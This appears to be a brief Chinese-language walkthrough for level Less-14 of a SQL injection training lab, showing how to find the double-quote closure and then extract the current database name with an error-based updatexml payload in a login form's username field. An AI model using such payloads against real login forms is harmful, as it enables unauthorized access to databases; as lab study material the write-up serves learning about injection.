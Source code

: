 ```yaml
---
title: Less - 14
date: 2023-03-14T14:20:53Z
lastmod: 2023-03-14T14:26:06Z
---
```


# Less - 14

---

# 通关教程

---

## 1、判断闭合

---

```html
uname=admin'&passwd=admin&submit=Submit #无错误显示
uname=admin"&passwd=admin&submit=Submit #有完整错误显示
```

​![image](assets/image-20230314142315-se6t63u.png)​

​![image](assets/image-20230314142330-y8h4i30.png)​

---

## 2、查看当前数据库

---

```html
uname=a" or updatexml(1,concat(0x7e,(database()),0x7e),1)#&passwd=admin&submit=Submit
```

​![image](assets/image-20230314142525-8knbzex.png)​

具体过程参考less13，只是闭合方式不一样
